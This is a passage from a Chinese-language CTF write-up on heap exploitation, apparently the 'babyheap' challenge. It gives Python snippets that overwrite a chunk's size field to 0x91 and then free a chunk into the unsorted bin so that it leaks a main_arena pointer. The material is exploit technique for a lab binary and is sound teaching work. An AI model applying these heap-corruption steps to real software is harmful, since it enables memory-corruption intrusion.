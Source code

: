    ![0x4](/img/image-20220723214419849.png)

   ```python
   #重新设置smallchunk的size为0x91
   payload = 0x10 * 'a' + p64(0) + p64(0x91)
   fill(3, len(payload), payload)
   ```

   ![0x5](/img/image-20220723214632928.png)

   >  分配一个新的0x90大小的babychunk5，目的是为了**防止紧接着free的babychunk4和top chunk合并**。

   allocate了一个chunk5后，free babychunk4使得babychun4进入unsortedbin，此时babychunk4的fd和bk都指向（main_arena+88）。

   ```python
   allocate(0x80) 
   free(4)
   ```
